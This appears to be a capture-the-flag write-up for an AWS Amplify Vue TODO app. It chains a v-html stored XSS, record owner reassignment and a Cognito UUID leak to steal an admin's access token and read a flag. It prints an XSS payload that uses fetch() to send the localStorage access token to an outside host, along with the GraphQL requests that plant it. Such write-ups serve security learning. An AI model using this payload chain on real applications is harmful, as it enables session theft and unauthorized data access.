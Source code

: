 # todo

We are presented with a shiny new AWS Amplify application, built with Vue and
Vite. This app is based on the [quickstart
template](https://docs.amplify.aws/vue/start/quickstart/) provided by AWS.

In `amplify/data/resources.ts` we see two models defined, one for TODOs and another for Flags

```javascript
const schema = a.schema({
  Todo: a
    .model({
      content: a.string(),
      owner: a.string(),
    })
    .authorization((allow) => [allow.owner().to(["create", "read", "update", "delete"])]),
  Flag: a
    .model({
      content: a.string(),
    })
    .authorization((allow) => [allow.owner().to(["read"])]),
});
```

This hints at us having to read the Flag models, but they are only readable by
the model's owner, and as a new user, you will not have any flag objects
associated with your account.

We notice is that there is a potential for XSS in `Todos.vue`

```html
<ul>
  <li
    v-for="todo in todos"
    :key="todo.id"
    @click="updateTodo(todo)"
    v-html="todo.content"       <!-- Raw HTML injected into <li> -->
  >
  </li>
</ul>
```

which we can confirm by creating a TODO with content such as

```
<img src="wat" onerror="alert(1)">
```

Reviewing the [documentation for data access](https://docs.amplify.aws/vue/build-a-backend/data/customize-authz/per-user-per-owner-data-access/), we notice this warning.

> By default, owners can reassign the owner of their existing record to another user.

We now realize that we should be able to create an XSS payload that appears on
other user's TODO list, however, we need to identify a user that has access to
the flag.

A comment in the file `amplify/auth/resource.ts` hints at `admin@ggc.tf` being
an admin user, which is our best (and only) lead. (This user also happens to be
the one that created the commit in the git repo).

Observing the graphql queries that are made by the app, we notice that the user
IDs specified are UUIDs and not emails.

```json
{
  "data": {
    "listTodos": {
      "items": [
        {
          "id": "527d5461-d2a4-4fc6-a489-af463dc6a1be",
          "content": "asdf",
          "owner": "70dcd9bc-b0e1-70f7-4bbd-17dc07041ad3",
          "createdAt": "2024-05-22T00:47:20.308Z",
          "updatedAt": "2024-05-23T15:23:31.840Z"
        }
      ],
      "nextToken": null,
      "__typename": "ModelTodoConnection"
    }
  }
}
```

We, therefore, need to find the UUID of `admin@ggc.tf`, in order to make an XSS
payload appear on that user's TODO list. If we manage to execute an XSS payload
in the admin's context, we can obtain his JWT access token out-of-band and
use that to query the flag database.

This application uses AWS Cognito for authentication. Cognito reveals the UUID
of users through the authentication handshake, even if the login attempts
fails. Therefore, we can just attempt to log in with the email `admin@ggc.tf`
and a random password. The challenge response will then reveal the UUID.

```json
{
  "ChallengeName": "PASSWORD_VERIFIER",
  "ChallengeParameters": {
    "SALT": "...",
    "SECRET_BLOCK": "...",
    "SRP_B": "...",
    "USERNAME": "308c397c-d041-7004-1f15-8453c33428eb",
    "USER_ID_FOR_SRP": "308c397c-d041-7004-1f15-8453c33428eb"
  }
}
```

We craft the following XSS payload to exfiltrate the access token OOB.

```
<img
  src="wat"
  onerror="fetch('https://my.domain/?'+\nwindow.localStorage[Object.keys(window.localStorage).filter(x => x.endsWith('accessToken'))[0]])">
```

Now we need to create a TODO,

```json
{
   "query":"mutation ($input: CreateTodoInput!) {\n  createTodo(input: $input) {\n    id\n    content\n    owner\n    createdAt\n    updatedAt\n  }\n}\n",
   "variables":{
      "input":{
         "content":"<img src=\"wat\" onerror=\"fetch('https://my.domain/?'+\nwindow.localStorage[Object.keys(window.localStorage).filter(x => x.endsWith('accessToken'))[0]])\">"
      }
   }
}
```

after that, we can update the TODO and set the owner as the UUID of the admin

```json
{
   "query":"mutation ($input: UpdateTodoInput!) {\n  updateTodo(input: $input) {\n    id\n    content\n    owner\n    createdAt\n    updatedAt\n  }\n}\n",
   "variables":{
      "input":{
         "id":"6ad00e76-24c6-404c-bf49-2b5930299a4d",
         "content":"<img src=\"wat\" onerror=\"fetch('https://my.domain/?'+\nwindow.localStorage[Object.keys(window.localStorage).filter(x => x.endsWith('accessToken'))[0]])\">",
         "owner": "308c397c-d041-7004-1f15-8453c33428eb"
      }
   }
```

Now we just need to wait for the admin to visit the site and the payload to
execute, and we will obtain the access token of the admin user. Using that
token, we can create a graphql query for the flag store to obtain the flag.

```
POST /graphql HTTP/2
Host: sd7blwf5xvfkhnn55s7tetfgja.appsync-api.eu-north-1.amazonaws.com
Content-Length: 302
Content-Type: application/json; charset=UTF-8
Authorization: [EXFILTRATED ACCESS TOKEN]

{"query":"query ($filter: ModelFlagFilterInput, $limit: Int, $nextToken: String) {\n  listFlags(filter: $filter, limit: $limit, nextToken: $nextToken) {\n    items {\n      id\n      content\n      owner\n      createdAt\n      updatedAt\n    }\n    nextToken\n    __typename\n  }\n}\n","variables":{}}
```
